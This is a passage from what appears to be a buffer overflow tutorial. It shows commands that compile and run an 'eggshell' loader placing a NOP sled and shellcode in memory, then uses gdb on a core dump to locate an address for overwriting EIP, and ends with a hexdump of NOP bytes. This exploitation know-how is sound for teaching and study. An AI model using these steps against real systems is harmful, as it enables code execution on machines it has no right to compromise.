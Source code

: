Now we can compile and load the eggshell.
  
**
  
gcc eggshell.c -o eggshell
  
./eggshell
  
** 

Now lets see where we want to point eip to. We want to look for our nopsled we
  
created/loaded with our eggshell. The eggshell loaded the nops + shellcode
  
into memory. To find the landing point in memory we turn to gdb again.
  
**
  
gdb -c core ./vuln
  
(gdb) x/s $esp //x is short for examine do a “help examine” to find out more
  
0xaffff6d0: &#8220;AA&#8221;
  
(gdb)
  
0xaffff6d3: &#8220;&#8221;
  
(gdb)
  
0xaffff6d4: &#8220;D÷ÿ¯P÷ÿ¯\001&#8221;
  
(gdb)
  
&#8230;&#8230;&#8230;.We keep hitting enter until we see the following&#8230;&#8230;..
  
0xaffff8f2: &#8220;EGG=&#8221;, &#8216;\220&#8217; &#8230;
  
(gdb)
  
0xaffff9ba: &#8216;\220&#8217; &#8230; //This is where we want to land!
  
(gdb)
  
** 
  
So **0xaffff9ba** is our address to slide down our nops into our shellcode.
  
This is what we want to overwrite $eip with. If you wanted to see the whole egg you could do
  
something like the following.
  
**
  
echo -n $EGG |hexdump -Cv**

**00000000 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000010 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000020 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000030 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000040 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  